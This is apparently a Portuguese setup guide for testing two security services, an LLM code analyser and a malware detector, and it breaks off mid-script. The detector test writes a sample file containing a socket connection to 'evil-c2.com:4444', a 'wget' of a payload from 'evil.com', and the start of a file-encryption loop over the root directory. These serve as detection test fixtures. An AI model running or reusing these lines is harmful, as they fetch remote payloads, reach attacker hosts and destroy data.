 
## 📋 OPÇÃO 2: Teste Individual dos Componentes

### Testar ORÁCULO Standalone

```bash
cd /home/juan/vertice-dev/backend/services/maximus_oraculo

# Instalar deps
pip install -r requirements.txt

# Criar script de teste
cat > test_oraculo.py << 'PYEOF'
import sys
from oraculo import Oraculo
from suggestion_generator import SuggestionCategory

# Inicializa Oráculo
oraculo = Oraculo(
    target_codebase_path=".",
    llm_api_key="your-gemini-key-here"  # ou use env var
)

# Roda análise
session = oraculo.run_analysis(
    focus_category=SuggestionCategory.SECURITY,
    max_suggestions=3,
    dry_run=True
)

print(f"✅ Sessão completa!")
print(f"Arquivos escaneados: {session.files_scanned}")
print(f"Sugestões geradas: {session.suggestions_generated}")
print(f"Duração: {session.duration_seconds:.2f}s")
PYEOF

python test_oraculo.py
```

### Testar EUREKA Standalone

```bash
cd /home/juan/vertice-dev/backend/services/maximus_eureka

# Instalar deps
pip install -r requirements.txt

# Criar arquivo de teste malicioso
cat > /tmp/fake_malware.py << 'PYEOF'
import socket
import os
import subprocess

# Suspicious patterns
def connect_to_c2():
    s = socket.socket()
    s.connect(("evil-c2.com", 4444))
    
def download_payload():
    os.system("wget http://evil.com/payload.exe")
    
def encrypt_files():
    for root, dirs, files in os.walk("/"):
        for file in files:
```